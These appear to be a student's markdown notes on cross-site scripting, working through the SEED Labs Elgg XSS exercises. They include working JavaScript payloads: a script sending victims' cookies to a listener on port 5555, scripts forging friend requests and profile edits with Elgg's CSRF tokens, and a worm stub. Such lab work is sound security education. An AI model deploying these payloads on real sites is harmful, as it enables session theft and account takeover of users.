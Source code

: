 # Cross Site Scripting(XSS)

## Summary 
## Condition:
* The victim is logged in to the vulnerable website. 

## What happens: 
* The attacker injects a malicious JavaScript code in the vulnerable website. 
* The victim surfs through the pages of the vulnerable website. 
* Attacker's JavaScript code runs on the victim's browser. 
* Attackers performs malicious activities with the JavaScript. 

Note: CSRF attacks do not violate same origin policy. (?)

## Useful Links:
* Web and network security, CS 155, Stanford University, https://crypto.stanford.edu/cs155/
* https://excess-xss.com/
* Seedlab, Syracuse University,http://www.cis.syr.edu/~wedu/seed/ 

## Tasks:

#### A simple blogpost application in php 
* Link : https://gitlab.com/shivapbhusal/app_analysis/tree/shiva/security_examples/xss
* Shows how attackers can inject malicious JavaScript code to the system and perform evil activities. 

#### SeedLab Activities 
Link : http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Web/Web_XSS_Elgg/Web_XSS_Elgg.pdf
#### Task 1: Popup window
The user injects this code in his profile. When other user visits his profile, a popup window appears. 

```javascript
<script>
alert('XSS attack');
</script>
```

#### Task 2 : Display cookies 

```javascript
<script>
alert(document.cookie);
</script>
```

#### Task 3: Stealing cookies: 
The TCP server program in c can be used to view the cookie information from the port 5555. 

```javascript
<script>
document.write('<img src=http://127.0.0.1:5555?c='+escape(document.cookie) + '   >');
</script>
```

#### Task 4 : Sending the friend request on behalf of the user. 
If I inject this code to my profile, whoever visits my profile will send a friend request to me. 

```javascript
<script>
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=40"+ts+token; 
var Ajax=new XMLHttpRequest ();
Ajax.open("GET",sendurl,true); 
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send(); 
</script>
```

#### Task 5: Changing the profile information of the user. 
It is not working properly. The draft code for the post request looks like this. We need to figure out how we can get name and other information 

```javascript 
<script>
var Ajax=null;
var victim_ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var victim_token="&__elgg_token="+elgg.security.token.__elgg_token;
var victim_id="&guid="+elgg.page_owner.guid;
var victim_name="&name="+elgg.page_owner;
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabelgg.com/action/profile/edit",true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
var content=victim_ts+victim_token+victim_name+"&description=Samy_is_my_hero&accesslevel%5Bdescription%5D=2&briefdescription=&accesslevel%5Bbriefdescription%5D=2&location=&accesslevel%5Blocation%5D=2&interests=&accesslevel%5Binterests%5D=2&skills=&accesslevel%5Bskills%5D=2&contactemail=&accesslevel%5Bcontactemail%5D=2&phone=&accesslevel%5Bphone%5D=2&mobile=&accesslevel%5Bmobile%5D=2&website=&accesslevel%5Bwebsite%5D=2&twitter=&accesslevel%5Btwitter%5D=2"+victim_id; 
Ajax.send(content);
</script>
```

JSON parse for guid
```javascript 
<script>
var owner = JSON.parse(elgg.page_owner);
alert(owner.guid);
</script>
```

Working example JSON parse:
```javascript 
<script>
var jsontext = '{"firstname":"Jesper","surname":"Aaberg"}'
var info=JSON.parse(jsontext);
alert(info.firstname);
 </script>
```

Test for self propagating worm :
```javascript 
<script id="worm">
var strcode=document.getElementById("worm");
alert(strcode.innerHTML);
</script>
```
